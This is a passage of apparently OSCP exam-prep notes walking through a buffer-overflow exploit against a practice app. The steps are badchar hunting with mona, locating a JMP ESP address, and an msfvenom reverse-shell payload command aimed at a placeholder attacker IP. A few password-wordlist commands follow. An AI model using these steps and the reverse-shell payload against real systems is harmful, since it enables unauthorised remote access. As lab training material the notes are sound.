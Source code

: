 Restart the vulnerable app in Immunity and run the modified exploit script. Make a note of the address to which the `ESP` register points and use it in the following mona command `!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file. Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string. The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well. Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns `"Unmodified"`. This indicates that no more badchars exist.

### Finding JMP ESP

`!mona jmp -r esp -cpb "\x00"` to Find a Jump Point. This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. Choose an address and update your exploit script, set the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generating ShellCode

Run `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c` to generate payload. use -b option with all the badchars you identified including \x00. update the payload variable with the payload.

### Prepending NOPs

Prepend NOPs. Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes. `padding = "\x90" * 16`

### Win

Restart vulnerable app and exploit

## Useful Commands

### Find any file with the word "filename" in it

```
find / -iname "*filename*" 2>/dev/null
```

### Scramble wordlists with john

```
john --wordlist=wordlist.txt --rules --stdout > scrambledWordlist.txt
```

**Crunch to make wordlists**
